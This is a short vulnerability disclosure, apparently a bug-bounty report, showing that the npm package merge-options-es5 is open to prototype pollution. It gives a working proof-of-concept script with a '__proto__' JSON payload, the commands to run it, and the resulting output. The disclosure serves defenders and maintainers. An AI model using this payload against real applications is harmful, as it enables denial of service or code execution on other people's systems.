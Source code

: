 # Description

`merge-options-es5` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
merge = require('merge-options-es5')

console.log('Before: ', {}.polluted)
merge({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log('After: ', {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i merge-options-es5 # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
